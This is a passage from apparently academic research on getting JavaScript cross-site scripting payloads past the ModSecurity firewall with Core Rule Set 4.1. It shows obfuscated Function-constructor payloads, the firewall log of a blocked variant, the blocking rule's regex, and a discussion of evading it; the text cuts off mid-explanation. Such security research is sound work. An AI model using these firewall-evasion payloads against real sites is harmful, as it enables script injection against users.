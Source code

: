 was split into two parts using the \verb|Function()| constructor and string concatenation:

\begin{lstlisting}[style=basicStyle, language=Python]
[].map.constructor('String.'+'fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)')();
\end{lstlisting}

This payload successfully bypassed the ModSecurity firewall configured to use the \acrshort{crs} 4.1. In order to make this payload execute, another use of the \verb|Function()| constructor and string concatenation was applied:

\begin{lstlisting}[style=basicStyle, language=Python]
[].map.constructor('[].map.constructor('+'String.'+'fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)'+')();')();
\end{lstlisting}

On evaluating this payload against the tested firewall, the newly applied obscurity triggered a different filtering rule:

\begin{lstlisting}[style=ruleStyle, language=XML, caption=stored xss payload blocked, label={lst:storedxssblocked}]
<payload>
[].map.constructor('[].map.constructor('+'String.'+'fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)'+')();')();
</payload>

<message>"PHP Injection Attack: Variable Function Call Found"</message>
<file>"/rules/REQUEST-933-APPLICATION-ATTACK-PHP.conf"</file>
<fileDetails>[line "488"] [id "933210"]<fileDetails>
<MatchedData>"('[].map.constructor(''String.''fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29)'')();')();"</MatchedData>
\end{lstlisting}

The regular expression used in this rule:

\begin{lstlisting}[style=basicStyle]
(?:\((?:.+\)(?:[\"'][\-0-9A-Z_a-z]+[\"'])?\(.+|[^\)]*string[^\)]*\)[\s\x0b\"'\-\.0-9A-\[\]_a-\{\}]+\([^\)]*)|(?:\[[0-9]+\]|\{[0-9]+\}|\$[^\(\),\.\/;\x5c]+|[\"'][\-0-9A-Z\x5c_a-z]+[\"'])\(.+)\);
\end{lstlisting}

requires a semicolon to finish the statement. In JavaScript, cases exist, where this semicolon is not neccessary. One such case would be the existance of a semicolon finished statement in the code just before where the payload is injected and a newline followed by another function call or variable assignment in the code after where the payload is injected. A case where the semicolon would be neccessary to achieve code execution is the following:

